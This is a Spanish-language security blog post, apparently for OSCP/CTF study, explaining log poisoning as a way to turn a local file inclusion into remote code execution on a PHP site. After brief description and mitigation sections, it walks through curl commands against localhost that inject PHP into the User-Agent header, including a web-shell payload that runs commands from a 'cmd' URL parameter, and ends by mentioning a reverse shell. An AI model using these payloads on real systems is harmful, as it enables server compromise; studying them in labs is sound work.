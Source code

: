 ```yaml
---
layout: post
title: Log Poisoning (LFI -> RCE)
tags: oscp ewpt ctf PoC logpoisoning bugbounty
categories: vulnerabilities 
---
```


## Descripción

Log Poisoning es una técnica en que un atacante manipula los archivos de registro (logs) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad LFI para lograr una ejecución remota de comandos en el servidor.

## Mitigación

Para prevenir un ataque de Log Poisoning, es importante que los desarrolladores limiten el acceso a los archivos de registro (logs) y aseguren que estos archivos se almacenen en un lugar seguro. Además, es importante que se valide adecuadamente la entrada del usuario y se filtre cualquier intento de entrada maliciosa antes de registrarla en los archivos de registro.

## Explotando Log Poisoning

A continuación, se muestra que es posible visualizar el archivo de registro de apache2 y que toda petición que se haga desde la url o en el aplicativo web quedará reflejada en sus logs.

![](/assets/10/61.png)

Por ejemplo, si nosotros realizaramos una petición en donde se llama a la variable 'testing', esta se verá reflejada en los logs.

![Alt text](/assets/10/62.png)

En este ejemplo notamos que tenemos un Local File Inclusion, ya que, es posible leer archivos internos del servidor desde la página web, a continuación se muestra una lectura de logs del servidor.

![](/assets/10/63.png)

como es posible observar en los logs, se refleja la cabecera de User-Agent indicando el navegador que estamos utilizando para realizar la petición al servidor web, sin embargo, es posible alterar el valor del user agent de una forma muy sencilla utilizando CURL.

Por ejemplo, enviaremos una solicitud GET al servidor indicando una cabecera User-Agent con valor de 'test'.

~~~ ssh
curl -s X GET "http://localhost/probando" -H "User-Agent: test"
~~~

![](/assets/10/64.png)

podemos verificar que en los logs del servidor, se ha registrado la cabecera modificada con el nombre de 'test'.

![](/assets/10/65.png)

Al estar interactuando un un sitio web en PHP, veremos si es posible inyectar código PHP directamente desde la cabecera User-Agent utilizando CURL.

~~~ ssh
curl -s X GET "http://localhost/probando" -H "User-Agent: <?php system('whoami'); ?>"
~~~

![](/assets/10/66.png)

Al revisar nuevamente los logs, obtendremos lo siguiente:
 
![Alt text](/assets/10/67.png)

Se está interpretando el código PHP introducido en el valor de la cabecera User-Agent, dado esto, inyectaremos un parámetro llamado 'cmd' para poder ejecutar comandos desde la URL de la siguiente forma:

~~~ ssh
curl -s X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
~~~

![](/assets/img/68.png)

Ahora revisaremos nuestros logs nuevamente desde el navegador.

![Alt text](/assets/10/69.png)

Si bien no se refleja lo inyectado en la cabecera User-Agent, ahora podemos inyectar comandos desde la URL directamente, a continuación te muestro un ejemplo del uso de la variable 'cmd' desde la url con el comando 'id'.

![Alt text](/assets/10/70.png)

Ahora solo basta poner un puerto a la escucha y obtener una reverse shell. 

